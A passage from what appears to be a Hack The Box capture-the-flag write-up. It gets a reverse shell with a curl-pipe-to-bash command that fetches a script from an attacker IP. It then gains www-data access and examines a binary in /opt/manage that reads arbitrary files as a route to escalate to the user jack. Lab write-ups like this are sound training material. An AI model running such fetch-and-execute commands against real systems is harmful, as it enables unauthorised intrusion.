 Now let's get a revshell :

```bash
curl 10.10.16.51/shell.sh | bash
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20230929212033.png>)

I'm in as www-data :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20230929212001.png>)

After turning around the server files in order to find a point where I can escalate to jack, I found a script in /opt/manage, I downloaded it locally and start analyzing it :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20230929220230.png>)

This binary file appears to read files from Jack’s home directory. When I execute `./execute_query 1` , I can read the `create.sql` file, when I do `./execute_query 5`, it goes to the default case, and it seems like I can read any readable files .
